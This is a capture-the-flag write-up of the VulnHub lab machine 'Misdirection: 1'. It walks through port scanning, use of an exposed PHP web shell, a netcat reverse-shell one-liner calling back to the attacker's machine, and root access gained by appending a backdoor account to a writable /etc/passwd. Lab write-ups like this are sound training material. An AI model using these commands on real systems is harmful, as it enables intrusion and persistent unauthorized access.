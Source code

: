 [VulnHub] Misdirection: 1
===============
date: 11/Oct/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeups

## Overview
This is a writeup for VulnHub VM [Misdirection: 1](https://www.vulnhub.com/entry/misdirection-1,371/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_misdirection1/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Oct 11 12:13:32 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/xml/_quick_tcp_nmap.xml 192.168.92.187
Nmap scan report for 192.168.92.187
Host is up, received arp-response (0.00080s latency).
Scanned at 2019-10-11 12:13:33 PDT for 25s
Not shown: 996 closed ports
Reason: 996 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkS5yl+Dpb7vsMGbzAHXBYrVSUNTh4kYGh8zajM3ZujG0XHLvgkW7xJ6F/meai9IrCB5gTq7+tTsn+fqNk0cAZugz4h+vwm5ekXe5szPPHNxNUlKuNAQ0Rch9k7jT/2pWjtsE5iF6yFlh1UA2vBKqrTWVU5vrGWswdFRMWICKWiFXwl1Tv93STPsKHYoVbq74v2y1mVOLn+3JNMmRNCBFqh8Z2x+1DTep0YY8vIV325iRK5ROKCJAPeyX33uoxQ/cYrdPIS+Whs9QX0C+W343Hf2Ypq93h3/g3NNm54LvZdE6X2vTUcUHGdvK2gU+dWQOiDhCpMDv3wiEAwGlf87P5
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM+YEivOAqHPDlFWduSuOjAjuJtfC9v/KW2uYB85gxQuibGJQZhFPcxwPEUf7UvQ/a5fr/keKYF2Kdld6gO44jY=
|   256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFHxbfiqinvu3cV7JoKrOF3w64zk+0N0h+/2nu+Z20Mk
80/tcp   open  http    syn-ack ttl 64 Rocket httpd 1.2.6 (Python 2.7.15rc1)
| http-methods:
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:F0:F4:AE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 11 12:13:58 2019 -- 1 IP address (1 host up) scanned in 26.69 seconds
```

2\. We start with `8080/tcp` service. There are some interesting hits from `gobuster` scan:  
```
http://192.168.92.187:8080/debug (Status: 301)
http://192.168.92.187:8080/shell (Status: 301)
http://192.168.92.187:8080/wordpress (Status: 301)
```

3\. Upon checking out the `/debug` url, we find that it has a PHP web shell called [p0wny-shell](https://github.com/flozz/p0wny-shell). This is a huge convenience as we can now spawn a reverse shell and get fully interactive access:  

![writeup.enumeration.steps.3.1](/static/files/posts_vulnhub_misdirection1/screenshot00.png)  

### Findings
#### Open Ports:
```
22/tcp    |  ssh    |  OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    |  http   |  Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp  |  mysql  |  MySQL (unauthorized)
8080/tcp  |  http   |  Apache httpd 2.4.29 ((Ubuntu))
```
#### Files
```
http://192.168.92.187:8080/debug
```
#### Users
```
ssh: root, brexit
```

## Phase #2: Exploitation
1\. We use the web shell to spawn a Bash reverse shell and catch it using a local `netcat` listener:  
```
nc -nlvp 443
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.92.183 443 >/tmp/f
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_misdirection1/screenshot01.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_misdirection1/screenshot02.png)  

## Phase #2.5: Post Exploitation
```
www-data@misdirection> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@misdirection>  
www-data@misdirection> uname
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@misdirection>  
www-data@misdirection> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.187  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fef0:f4ae  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f0:f4:ae  txqueuelen 1000  (Ethernet)
        RX packets 847916  bytes 329992802 (329.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 624984  bytes 125640093 (125.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@misdirection>  
www-data@misdirection> users
root
brexit
```

## Phase #3: Privilege Escalation
1\. We find that the user `brexit` can run `bash` with `sudo` privileges. We also find that the `/etc/passwd` file has write permissions for group `brexit`. Combining these two, we need to first switch to user `brexit` and then modify the `/etc/passwd` file to add a new entry for a backdoor `root` user:  
```
sudo -l
  User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
ls -la /etc/passwd
  -rwxrwxr-- 1 root brexit 1617 Jun  1 01:17 /etc/passwd
sudo -u brexit bash
mkpasswd -m sha-512 password saltsalt
  $6$saltsalt$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/
echo -e "hacker:\$6\$saltsalt\$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/:0:0:hacker:/root:/bin/bash" >>/etc/passwd
su hacker
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_misdirection1/screenshot03.png)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_misdirection1/screenshot04.png)  

![writeup.privesc.steps.1.3](/static/files/posts_vulnhub_misdirection1/screenshot05.png)  

![writeup.privesc.steps.1.4](/static/files/posts_vulnhub_misdirection1/screenshot06.png)  

![writeup.privesc.steps.1.5](/static/files/posts_vulnhub_misdirection1/screenshot07.png)  

![writeup.privesc.steps.1.6](/static/files/posts_vulnhub_misdirection1/screenshot08.png)  

![writeup.privesc.steps.1.7](/static/files/posts_vulnhub_misdirection1/screenshot09.png)  

2\. We can view the file `/root/root.txt` to get the flag and complete the challenge:  
```
cat /root/root.txt
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_misdirection1/screenshot10.png)  

## Loot
### Hashes
```
root:$6$PnbVvEMS$OcseJT8lZRrgrW1JBpHJ252SPRxS6Rkh3oVBkrbRBZgHBD1wArL6FcyO5daqaon7waFKwSqbg5fIjFgzU........................
brexit:$6$51s7qYVw$XbTfXEV2acHRp9vmA7VTxO35OLK9EGZJzDGF9nYaukD3eppHsn2P1ESMr.9rRn/YYO70uiUskfkWP0LyR........................
```
### Flags
```
0d2c6222bfdd3701e0fa12a9a.......
```

## References
* <https://www.vulnhub.com/entry/misdirection-1,371/>  
* <https://download.vulnhub.com/media/misdirection/Misdirection-Walkthrough.pdf>  
